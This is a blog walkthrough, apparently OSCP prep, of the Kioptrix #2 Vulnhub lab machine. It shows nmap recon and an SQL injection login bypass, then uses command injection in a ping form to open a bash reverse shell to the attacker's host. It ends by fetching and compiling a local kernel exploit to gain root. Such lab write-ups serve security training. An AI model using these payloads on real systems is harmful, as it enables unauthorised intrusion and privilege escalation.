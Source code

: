 ```yaml
---
title: "Kioptrix #2 Walkthrough"
author: alex
date: Sat 8 Jul 18:15:48 CEST 2023
categories: [OSCP Prep,Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2023-07-08-kioptrix-2-walkthrough/
---
```


Today I'm hacking into **Kioptrix 1.1**. Or Kioptrix #2. This is one of the many **beginner-friendly OSCP-like** CTFs of Vulnhub. So it's a great starting point for preparing the OSCP tests. If you want to start with the previous level, check my walkthrough **[here!](/posts/kioptrix-1-walkthrough)**

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining root access

## Tools Used

- Netdiscover
- Nmap
- Searchsploit
- Someone's exploit

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
Currently scanning: 192.168.18.0/16   |   Screen View: Unique Hosts                                               
                                                                                                                   
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.1.1     08:00:27:bf:11:12      1      60  PCS Systemtechnik GmbH                                          
192.168.1.38    08:00:27:fd:e3:ab      1      60  PCS Systemtechnik GmbH 
```

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.38
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-week-1/#port-scanning)**
{: .prompt-warning }

And the output...

```
Nmap scan report for 192.168.1.38
Host is up (0.00040s latency).
Not shown: 65528 closed tcp ports (reset)

PORT     STATE SERVICE  VERSION

22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 
|   1024 8f3e8b1e5863fecf27a318093b52cf72 (RSA1)
|   1024 346b453dbacecab25355ef1e43703836 (DSA)
|_  1024 684d8cbbb65abd7971b87147ea004261 (RSA)

80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.0.52 (CentOS)

111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            761/udp   status
|_  100024  1            764/tcp   status

443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_WITH_MD5
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-10-08T00:10:47
| Not valid after:  2010-10-08T00:10:47
| MD5:   01de29f9fbfb2eb2beafe6243157090f
|_SHA-1: 560c91966506fb0ffb8166b1ded3ac112ed4808a
|_ssl-date: 2023-05-30T02:01:42+00:00; +5h59m59s from scanner time.
|_http-server-header: Apache/2.0.52 (CentOS)

631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
|_http-server-header: CUPS/1.1

764/tcp  open  status   1 (RPC #100024)

3306/tcp open  mysql    MySQL (unauthorized)

MAC Address: 08:00:27:79:1B:6D (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Uptime guess: 0.006 days (since Mon May 29 21:52:38 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=206 (Good luck!)
IP ID Sequence Generation: All zeros

Host script results:
|_clock-skew: 5h59m58s
```

We can see some interesting ports open here. 

- **Port 22:** Nothing interesting so far.

- **Port 80/443:** Let's start with HTTP and HTTPS. We have both ports open so the first thing we are going to do is open the browser and search for http://192.168.1.38. We find a login page, let's keep going with the recon before trying anything here.

- **Other ports:** Visiting http://192.168.1.38:3306/ we see we are not allowed to connect to the MySQL server. 

Done with the recon then!

## Enumeration

Back to the login page. This cheap looking login form is crying for some **SQLi attempts**. And so we do!  As soon as we try the good ol' vanilla `admin' or 1=1 #` in the username text field and `1234` as password, we get access to the administrator page!

![SQL Injection](/login-sql-injection.png)

Now we see another text field for pinging hosts in the same network. Let's ping ourselves and check the output:

```
192.168.1.23

PING 192.168.1.23 (192.168.1.23) 56(84) bytes of data.
64 bytes from 192.168.1.23: icmp_seq=0 ttl=64 time=0.475 ms
64 bytes from 192.168.1.23: icmp_seq=1 ttl=64 time=1.05 ms
64 bytes from 192.168.1.23: icmp_seq=2 ttl=64 time=0.808 ms

--- 192.168.1.23 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.475/0.780/1.058/0.239 ms, pipe 2
```

Looks like the output we get when pinging from the console so... would it be vulbnerable to **Remote Code Execution**? Let's try to submit `192.168.1.23; whoami`

![Remote Code Execution](/remote-code-whoami.png)

Oh yeah! **Vulnerable to RCE!** We can `cat` the `/etc/passwd` to do some user enumeration as well:

![/etc/passwd File](/data-leak.png)

Now let's try to spawn a shell for us:

**On attaker's machine:**

```bash
sudo nc -nvlp 443
```

**In the ping text field:**

```bash
192.168.1.23; bash -i >& /dev/tcp/192.168.1.23/443 0>&1
```

And we have a shell! Now it's time to escalate privileges! First, let's find out the kernel version and the release.

![Shell](/shell.png)

```bash
uname -a
```

And we see that **kernel is 2.6.9**. Now, let's cat the release:

```bash
cat /etc/*-release
```

And the release is **CentOS 4.5**.

## Exploitation

Back to our machine, let's find an exploit that suits best for these features:

```bash
searchsploit linux 2.6 CentOS 
```

And there's an exploit that seems to fit our purpose. Let's mirror it into our machine:

```bash
searchsploit -m linux/local/9545.c
```

Now we have to copy it into the `/var/www/html` folder and start Apache.

```bash
sudo service apache2 start
```

Back to Kioptrix:

```bash
wget 192.168.1.23/9545.c
gcc 9545.c -o exploit
chmod 777 exploit
./exploit
```
![Root!](/root.png)

And there we go! Now we are root! I know, it's quite easy to hack into but, as I said, this is a beginner-friendly machine. It's good for learning the basics. See you soon and happy hacking!
